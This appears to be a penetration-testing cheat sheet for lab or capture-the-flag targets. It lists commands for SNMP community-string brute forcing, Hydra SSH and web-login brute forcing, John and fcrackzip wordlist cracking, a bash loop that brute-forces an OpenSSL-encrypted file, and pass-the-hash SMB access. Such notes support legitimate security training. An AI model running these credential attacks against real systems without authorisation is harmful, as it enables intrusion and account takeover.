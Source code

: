 `nmap -sU -p 161 [IP] -Pn --script=snmp-brute`

`onesixtyone -c /usr/share/doc/onesixtyone/dict.txt [IP]`

Community String is in both cases "private"

`snmp-check [IP] -c public`

`snmpwalk -c public [IP] -v 2c`

## Hydra

`hydra -l root -p admin 192.168.1.105 -t 4 ssh`

`hydra -L root -P File 192.168.1.105 -t 4 ssh`

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.X http-post-form "/login:username=^USER^&password=^PASS^:F=failed"`

## John the ripper

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

## Crack zip Files

`fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' "file.zip"`

Note: Be careful with the quotes!

# Crack openssl encrypted files

```
#!bin/bash
for password in $(cat /usr/share/wordlists/rockyou.txt)
do 
openssl enc -d -aes-256-cbc -a -in file.txt.enc -k $password -out $password-drupal.txt
done
```

After this you get one file for every Password tried. 

`ls -lS`

Sort them by size and find the one unique size. Or try to grep the content.


## Pass the hash smb

With nt hash the `--pw-nt-hash` flag is needed, default is ntlm!

`pth-smbclient \\\\10.10.10.107\\$ -W <DOMAIN> -U <USER> -L <IP> --pw-nt-hash <HASH>`

List all shares on <HOST>.
  
`pth-smbclient \\\\10.10.10.107\\<SHAR> -W <DOMAIN> -U <USER> --pw-nt-hash <HASH>`

Connect to <SHARE>.
  